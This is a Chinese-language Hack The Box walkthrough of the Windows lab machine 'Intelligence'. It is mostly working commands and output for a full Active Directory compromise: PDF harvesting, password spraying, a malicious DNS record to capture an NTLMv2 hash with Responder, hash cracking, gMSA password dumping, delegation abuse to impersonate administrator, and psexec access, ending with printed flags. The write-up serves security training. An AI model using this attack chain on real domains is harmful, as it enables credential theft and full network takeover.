

###### tags: `Hack the box` `HTB` `Medium` `Windows`

# Intelligence
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.121.166 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.121.166:53
Open 10.129.121.166:80
Open 10.129.121.166:88
Open 10.129.121.166:135
Open 10.129.121.166:139
Open 10.129.121.166:389
Open 10.129.121.166:445
Open 10.129.121.166:464
Open 10.129.121.166:593
Open 10.129.121.166:636
Open 10.129.121.166:3269
Open 10.129.121.166:3268
Open 10.129.121.166:5985
Open 10.129.121.166:9389
Open 10.129.121.166:49667
Open 10.129.121.166:49691
Open 10.129.121.166:49692
Open 10.129.121.166:49713
Open 10.129.121.166:49719

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-title: Intelligence
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-06-03 08:13:23Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767:9533:67fb:d65d:6065:dff7:7ad8:3e88
| SHA-1: 1555:29d9:fef8:1aec:41b7:dab2:84d7:0f9d:30c7:bde7
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-06-03T08:15:01+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767:9533:67fb:d65d:6065:dff7:7ad8:3e88
| SHA-1: 1555:29d9:fef8:1aec:41b7:dab2:84d7:0f9d:30c7:bde7
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-06-03T08:15:01+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767:9533:67fb:d65d:6065:dff7:7ad8:3e88
| SHA-1: 1555:29d9:fef8:1aec:41b7:dab2:84d7:0f9d:30c7:bde7
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49691/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         syn-ack Microsoft Windows RPC
49713/tcp open  msrpc         syn-ack Microsoft Windows RPC
49719/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

前往`http://10.129.121.166/`80port可以在中間看到有兩個pdf可以下載
`http://10.129.121.166/documents/2020-01-01-upload.pdf`
`http://10.129.121.166/documents/2020-01-01-upload.pdf`

可以看看能不能下載中間所有日期的文件
```bash
## date.sh
d=2020-01-01
while [ "$d" != 2020-12-30 ]; do 
  echo $d
  d=$(date -I -d "$d + 1 day")
  
  wget 10.129.121.166/documents/$d-upload.pdf
  
done

┌──(kali㉿kali)-[~/htb]
└─$ chmod +x date.sh 

┌──(kali㉿kali)-[~/htb]
└─$ ./date.sh
```

下載完用`pdftotext`轉成txt檔，查看到`2020-06-04-upload.txt`有password關鍵字
```
┌──(kali㉿kali)-[~/htb/pdf]
└─$ for f in *pdf; do pdftotext $f; done

┌──(kali㉿kali)-[~/htb]
└─$ grep -i -R "pass" pdf
pdf/2020-06-04-upload.txt:Please login using your username and the default password of:
pdf/2020-06-04-upload.txt:After logging in please change your password as soon as possible.
```

裡面可以得到密碼`NewIntelligenceCorpUser9876`
```
New Account Guide
Welcome to Intelligence Corp!
Please login using your username and the default password of:
NewIntelligenceCorpUser9876
After logging in please change your password as soon as possible.
```

再用`exiftool`把`creator`全部蒐集起來
```bash
## creator.sh
for file in *pdf
do
   exiftool -Creator -s -S $file >> users.txt	
done
```

```
┌──(kali㉿kali)-[~/htb]
└─$ cat users.txt                                                                               
Jennifer.Thomas
Danny.Matthews
Stephanie.Young
Daniel.Shelton
Jose.Williams
John.Coleman
Jose.Williams
Daniel.Shelton
Brian.Morris
Jennifer.Thomas
Travis.Evans
Samuel.Richardson
David.Mcbride
William.Lee
Brian.Baker
David.Mcbride
Kelly.Long
John.Coleman
Thomas.Valenzuela
David.Reed
Kaitlyn.Zimmerman
Jason.Patterson
Darryl.Harris
William.Lee
Stephanie.Young
David.Reed
Nicole.Brock
David.Mcbride
John.Coleman
David.Wilson
John.Coleman
Veronica.Patel
Ian.Duncan
Nicole.Brock
William.Lee
Travis.Evans
David.Mcbride
Jessica.Moody
Ian.Duncan
Jason.Wright
Richard.Williams
Tiffany.Molina
Jose.Williams
Brian.Baker
Anita.Roberts
Kaitlyn.Zimmerman
Jose.Williams
Samuel.Richardson
Tiffany.Molina
Kelly.Long
Travis.Evans
Ian.Duncan
David.Wilson
Thomas.Hall
Ian.Duncan
Jason.Patterson
```

噴灑密碼之後用`smbmap`
```
┌──(kali㉿kali)-[~/htb]
└─$ crackmapexec smb 10.129.121.166 -u users.txt -p 'NewIntelligenceCorpUser9876'

SMB         10.129.121.166  445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876

┌──(kali㉿kali)-[~/htb]
└─$ smbmap -d intelligence.htb -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -H 10.129.121.166                            
                                              
[+] IP: 10.129.121.166:445      Name: intelligence.htb          Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        IT                                                      READ ONLY
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
```

登入`IT`可以看到一個`downdetector.ps1`的腳本，依
```
┌──(kali㉿kali)-[~/htb]
└─$ smbclient -N //10.129.121.166/IT -U Tiffany.Molina%NewIntelligenceCorpUser9876

smb: \> get downdetector.ps1
```

```powershell
┌──(kali㉿kali)-[~/htb]
└─$ cat downdetector.ps1                                                         
��# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

翻譯官方walkthrough的說法
```
這個腳本循環遍歷 DNS 記錄並向任何以 "web" 開頭的主機發送身份驗證請求，以檢查其狀態。我們可以利用身份驗證用戶默認授予的權限，在 Active Directory 整合的 DNS (ADIDNS) 區域上創建任意 DNS 記錄，以添加一個新記錄，將其指向我們自己的 IP 地址。這可以使用 krbrelayx 的 dnstool.py 腳本來實現。
```

下載，然後使用他，等大概5分鐘可以拿到NTLM hash
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo responder -I tun0

┌──(kali㉿kali)-[~]
└─$ git clone https://github.com/dirkjanm/krbrelayx.git

┌──(kali㉿kali)-[~/krbrelayx]
└─$ python3 dnstool.py -u "intelligence.htb\Tiffany.Molina" -p NewIntelligenceCorpUser9876 10.129.121.166 -r web2 -a add -d 10.10.14.19
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully

[HTTP] NTLMv2 Client   : 10.129.121.166
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:c58ac0c19ade8c5e:308EDD1A18150DD59C74D9DBDEC6D54E:01010000000000006C42276FA4B5DA01F49634105DD9BA790000000002000800340037004F004A0001001E00570049004E002D0058004C00380037004D0033005100350034003800560004001400340037004F004A002E004C004F00430041004C0003003400570049004E002D0058004C00380037004D003300510035003400380056002E00340037004F004A002E004C004F00430041004C0005001400340037004F004A002E004C004F00430041004C0008003000300000000000000000000000002000002DCAE196D838CF6F5F0E328F7935A01455292592808149AF3286FB1808792E3D0A001000000000000000000000000000000000000900340048005400540050002F0077006500620032002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000 
```

用john破
```
┌──(kali㉿kali)-[~/htb]
└─$ john Ted.Graves.ntlm --wordlist=/home/kali/rockyou.txt 

Mr.Teddy         (Ted.Graves)
```

因為還是不能登入，用`bloodhound-python`
```
┌──(kali㉿kali)-[~/htb]
└─$ bloodhound-python -c All -u 'Ted.Graves' -p 'Mr.Teddy' -d intelligence.htb -ns 10.129.121.166 --zip

INFO: Compressing output into 20240603014521_bloodhound.zip

┌──(kali㉿kali)-[~/htb]
└─$ sudo neo4j start

┌──(kali㉿kali)-[~/htb]
└─$ bloodhound
```

丟壓縮檔進去之後，搜尋`TED.GRAVES`，點`Node Info` -> `OUTBOUND OBJECT CONTROL` -> `Group Delegated Object Control`



發現有`ReadGMSAPassword`，右鍵點他點`help`->`Linux Abuse`可以看到他利用[gMSADumper.py](https://github.com/micahvandeusen/gMSADumper)，用他
```
┌──(kali㉿kali)-[~/htb/gMSADumper]
└─$ python3 gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::51e4932f13712047027300f869d07ab6
svc_int$:aes256-cts-hmac-sha1-96:285962204a4f54a092182cc51512bda5137de5b33becfd27797d079ba440e6d5
svc_int$:aes128-cts-hmac-sha1-96:cc50179e1ce82827a22ef0ad4fab3bd9
```

得到`svc_int$`的hash之後可以再看一下bloodhound
點到`Analysis` -> `Shortest Path from Owned Principals`


一樣對`AllowedToDelegate`右鍵`help` -> `Linux Abuse`，他說[getST.py](https://github.com/fortra/impacket/blob/master/examples/getST.py)，如果有error先用`ntpdate`
```
┌──(kali㉿kali)-[~/impacket]
└─$ sudo ntpdate -u 10.129.121.166
2024-06-03 09:06:22.343630 (-0400) +25199.632990 +/- 0.145895 10.129.121.166 s1 no-leap
CLOCK: time stepped by 25199.632990

┌──(kali㉿kali)-[~/impacket]
└─$ getST.py -spn 'www/dc.intelligence.htb' -impersonate 'administrator' -hashes :51e4932f13712047027300f869d07ab6 'intelligence.htb/svc_int'

┌──(kali㉿kali)-[~/impacket]
└─$ export KRB5CCNAME=./administrator@www_dc.intelligence.htb@INTELLIGENCE.HTB.ccache
```

登入，可在`C:\Users\Administrator\Desktop`得root.txt，`C:\Users\Tiffany.Molina\Desktop`得user.txt
```
┌──(kali㉿kali)-[~/impacket]
└─$ impacket-psexec -k -no-pass dc.intelligence.htb -dc-ip 10.129.121.166

C:\Users\Administrator\Desktop> type root.txt
de1d074f8bf9c6c1a1f0a901cfea0f49

C:\Users\Tiffany.Molina\Desktop> type user.txt
72c33cd28e483cbcfeafc1154bdb992b
```